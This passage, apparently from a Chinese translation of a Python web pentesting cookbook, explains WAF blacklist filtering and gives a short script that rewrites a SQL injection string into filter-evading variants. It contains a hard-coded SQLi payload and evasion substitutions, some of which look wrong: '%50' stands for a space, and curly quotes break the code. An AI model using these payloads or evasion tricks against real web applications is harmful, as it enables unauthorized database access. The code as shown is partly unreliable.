 ```py
```

# 编码有效载荷

阻止 SQL 注入的一种方法是通过服务器端文本操作或**Web 应用程序防火墙**（**WAFs**）进行过滤。这些系统针对与攻击常见相关的特定短语，如`SELECT`，`AND`，`OR`和空格。这些可以通过用不太明显的值替换这些值来轻松规避，从而突显了黑名单的一般问题。

我们将创建一个脚本，该脚本接受攻击字符串，查找潜在的转义字符串，并提供替代的攻击字符串。

## 如何做…

以下是我们的脚本：

```py
subs = []
values = {“ “: “%50”, “SELECT”: “HAVING”, “AND”: “&&”, “OR”: “||”}
originalstring = “' UNION SELECT * FROM Users WHERE username = 'admin' OR 1=1 AND username = 'admin';#”
secondoriginalstring = originalstring
for key, value in values.iteritems():
  if key in originalstring:
    newstring = originalstring.replace(key, value)
    subs.append(newstring)
  if key in secondoriginalstring:
    secondoriginalstring = secondoriginalstring.replace(key, value)
    subs.append(secondoriginalstring)

subset = set(subs)
for line in subs:
  print line
```

以下截图是使用此脚本时产生的输出的示例：

![如何做…](https://github.com/OpenDocCN/freelearn-sec-zh/raw/master/docs/py-web-pentest-cb/img/B04044_04_03.jpg)

## 它是如何工作的…

这个脚本不需要任何库！真是令人震惊！我们为即将创建的值创建一个空列表，并创建一个意图添加的替代值的字典。我放了五个示例值。空格和`%20`通常被 WAFs 转义，因为 URL 通常不包括空格，除非请求了不当的内容。

更具体地说，调整过的系统可能会避开 SQL 特定词语，比如`SELECT`，`AND`和`OR`。这些都是非常基本的值，可以根据需要添加或替换：

```py
subs = []
values = {“ “: “%50”, “%20”: “%50”, “SELECT”: “HAVING”, “AND”: “&&”, “OR”: “||”}
```

我已经将原始字符串硬编码为示例，这样我们就可以看到它是如何工作的。我已经包含了一个包含上述所有值的有效 SQLi 字符串，以证明它的用法：

```py
originalstring = “'%20UNION SELECT * FROM Users WHERE username = 'admin' OR 1=1 AND username = 'admin';#”
```
